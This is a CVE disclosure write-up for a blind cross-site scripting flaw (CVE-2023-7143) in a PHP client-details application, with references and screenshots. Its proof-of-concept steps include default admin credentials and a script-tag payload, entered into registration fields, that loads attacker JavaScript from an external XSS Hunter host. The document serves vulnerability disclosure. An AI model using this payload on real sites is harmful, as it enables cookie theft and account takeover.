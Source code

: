 # CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7143

## References: 
+ **CVE-2023-7143:** https://vuldb.com/?id.249146
+ https://www.cve.org/CVERecord?id=CVE-2023-7143
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7143
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7143

## Description:
Client_Details_System 1.0 allows Blind Cross-Site Scripting via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Client_Details_System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Login with `admin`:`client123`
+ Go to Create Users: "http://localhost/clientdetails/admin/regester.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Fill the form parameters 'fname', 'lname', 'email' and 'contact' with the payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![7-1](https://github.com/h4md153v63n/CVEs/assets/5091265/51ded0aa-4808-4b61-896e-e8e99a315a73)
<br>
<br>
![7-2](https://github.com/h4md153v63n/CVEs/assets/5091265/51f60b4d-0fe7-478c-884c-f16060b25fea)
<br>
<br>
![7-3](https://github.com/h4md153v63n/CVEs/assets/5091265/f195eb57-e2c2-4d70-b81f-ba46819c6ab4)
<br>
<br>
![7-4](https://github.com/h4md153v63n/CVEs/assets/5091265/588bd279-e6dd-4350-a2ce-5bb4f8097be4)
<br>
<br>
![7-5](https://github.com/h4md153v63n/CVEs/assets/5091265/1460887d-799b-4999-8f0f-3433393fe77b)
<br>
<br>
![7-6](https://github.com/h4md153v63n/CVEs/assets/5091265/ff4effde-880b-49bc-8aba-b8cc3885b0f6)
